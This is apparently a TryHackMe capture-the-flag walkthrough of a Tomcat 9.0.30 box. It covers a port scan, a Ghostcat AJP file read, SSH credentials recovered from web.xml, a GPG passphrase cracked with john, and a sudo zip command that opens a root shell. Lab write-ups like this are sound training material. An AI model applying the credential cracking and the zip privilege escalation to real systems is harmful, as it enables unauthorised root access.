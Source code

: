 ```yaml
---
sticker: emoji//1f47b
---
```

# ENUMERATION
---



## OPEN PORTS
---


| PORT | SERVICE    |
| :--- | :--------- |
| 22   | ssh        |
| 53   | tcpwrapped |
| 8009 | ajp13      |
| 8080 | http       |

```
PORT     STATE SERVICE    REASON  VERSION
22/tcp   open  ssh        syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 f3:c8:9f:0b:6a:c5:fe:95:54:0b:e9:e3:ba:93:db:7c (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDQvC8xe2qKLoPG3vaJagEW2eW4juBu9nJvn53nRjyw7y/0GEWIxE1KqcPXZiL+RKfkKA7RJNTXN2W9kCG8i6JdVWs2x9wD28UtwYxcyo6M9dQ7i2mXlJpTHtSncOoufSA45eqWT4GY+iEaBekWhnxWM+TrFOMNS5bpmUXrjuBR2JtN9a9cqHQ2zGdSlN+jLYi2Z5C7IVqxYb9yw5RBV5+bX7J4dvHNIs3otGDeGJ8oXVhd+aELUN8/C2p5bVqpGk04KI2gGEyU611v3eOzoP6obem9vsk7Kkgsw7eRNt1+CBrwWldPr8hy6nhA6Oi5qmJgK1x+fCmsfLSH3sz1z4Ln
|   256 dd:1a:09:f5:99:63:a3:43:0d:2d:90:d8:e3:e1:1f:b9 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBOscw5angd6i9vsr7MfCAugRPvtx/aLjNzjAvoFEkwKeO53N01Dn17eJxrbIWEj33sp8nzx1Lillg/XM+Lk69CQ=
|   256 48:d1:30:1b:38:6c:c6:53:ea:30:81:80:5d:0c:f1:05 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGqgzoXzgz5QIhEWm3+Mysrwk89YW2cd2Nmad+PrE4jw
53/tcp   open  tcpwrapped syn-ack
8009/tcp open  ajp13      syn-ack Apache Jserv (Protocol v1.3)
| ajp-methods:
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http       syn-ack Apache Tomcat 9.0.30
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/9.0.30
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```



# RECONNAISSANCE
---

From the scan, we can check that we're dealing with `apache tomcat 9.0.30`, we can look up for vulnerabilities regarding this version:


![](cybersecurity/images/Pasted%2520image%252020250331134324.png)

![](cybersecurity/images/Pasted%2520image%252020250331134331.png)


We can look up this in `metasploit`:

![](cybersecurity/images/Pasted%2520image%252020250331134514.png)

Let's test if it works:

![](cybersecurity/images/Pasted%2520image%252020250331134552.png)

It works, let's proceed with exploitation.


# EXPLOITATION
---

Since we were able to read the `/WEB-INF/web.xml` file, we noticed it came with some credentials, we can access `ssh` with them:


```
skyfuck:8730281lkjlkjdqlksalks
```



![](cybersecurity/images/Pasted%2520image%252020250331135832.png)

Let's begin privesc.


# PRIVILEGE ESCALATION
---


If we check `skyfuck` home, we can find this:

```
skyfuck@ubuntu:~$ ls
credential.pgp  tryhackme.asc
```

We got some encrypted credentials, but to our luck we also got the `.asc` private file to decrypt, let's do it:

![](cybersecurity/images/Pasted%2520image%252020250331140554.png)

If we try importing it, we notice we need a passphrase, let's use `gpg2john` to get it:

```
gpg2john tryhackme.asc > hash
john --wordlist=/usr/share/wordlists/rockyou.txt hash
```

We get this:

```
john --wordlist=/usr/share/wordlists/rockyou.txt hash
Warning: detected hash type "gpg", but the string is also recognized as "gpg-opencl"
Use the "--format=gpg-opencl" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (gpg, OpenPGP / GnuPG Secret Key [32/64])
Cost 1 (s2k-count) is 65536 for all loaded hashes
Cost 2 (hash algorithm [1:MD5 2:SHA1 3:RIPEMD160 8:SHA256 9:SHA384 10:SHA512 11:SHA224]) is 2 for all loaded hashes
Cost 3 (cipher algorithm [1:IDEA 2:3DES 3:CAST5 4:Blowfish 7:AES128 8:AES192 9:AES256 10:Twofish 11:Camellia128 12:Camellia192 13:Camellia256]) is 9 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
alexandru        (tryhackme)
1g 0:00:00:00 DONE (2025-03-31 19:06) 16.66g/s 17866p/s 17866c/s 17866C/s theresa..alexandru
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

Passphrase is `alexandru`, let's check the credentials now:

```
gpg --import tryhackme.asc
gpg --decrypt credential.pgp
```

We get this:

```
gpg --decrypt credential.pgp
gpg: encrypted with elg1024 key, ID 61E104A66184FBCC, created 2020-03-11
      "tryhackme <stuxnet@tryhackme.com>"
gpg: WARNING: cipher algorithm CAST5 not found in recipient preferences
merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j
```

We got the credentials for another user: `merlin`, let's go into ssh:

```
merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j
```

We can now read `user.txt`:

```
merlin@ubuntu:~$ cat user.txt
THM{GhostCat_1s_so_cr4sy}
```


We can check our privileges:

```
merlin@ubuntu:~$ sudo -l
Matching Defaults entries for merlin on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User merlin may run the following commands on ubuntu:
    (root : root) NOPASSWD: /usr/bin/zip
```

We got root permissions on `/usr/bin/zip`, let's check it on `gtfobins`

![](cybersecurity/images/Pasted%2520image%252020250331141148.png)

We can do the following in order to get an interactive shell as root:

```
TF=$(mktemp -u)
sudo zip $TF /etc/hosts -T -TT 'sh -c "sh <&2 1>&2"'
```

![](cybersecurity/images/Pasted%2520image%252020250331141357.png)

We can now read `root.txt`:

```
# cat /root/root.txt
THM{Z1P_1S_FAKE}
```

![](cybersecurity/images/Pasted%2520image%252020250331141444.png)

